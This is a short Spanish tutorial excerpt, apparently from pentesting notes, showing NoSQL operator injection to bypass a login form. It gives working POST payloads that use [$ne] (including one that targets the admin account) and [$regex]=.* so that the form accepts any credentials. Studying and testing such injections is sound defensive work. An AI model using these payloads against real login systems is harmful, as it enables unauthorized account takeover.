 ## Caso de ejemplo:

Supongamos que tenemos un login que manda los datos por medio de un POST usando variables de "Username y password":

    username=mingo&password=mingita

Podríamos intentar injecciones que nos ayuden a bypassear el login mediante diferentes criterios:

### Autenticación negativa:

BUscamos un caso de resolución negativa. Luego agregamos a la variable del post la expresión [$ne]

    username[$ne]=mingo&password[$ne]=minga

De esta forma el loging buscara datos que no matcheen con los introducidos y nos dará el acceso como el primer dato de la lista(que usualmente es el admin :D ).

#### Si tuvieramos un usuario pero no su contraseña, podríamos también aplicarlo sobre el campo password:

    username=admin&password[$ne]=x

### Por expresiones regulares:

Podemos abusar de las expresiones regulares para poder traernos todos los registros y matcheará el primer registro como datos de login agregando la expresión [$regex]=.*

username[$regex]=.\*&password[$regex]=.\*

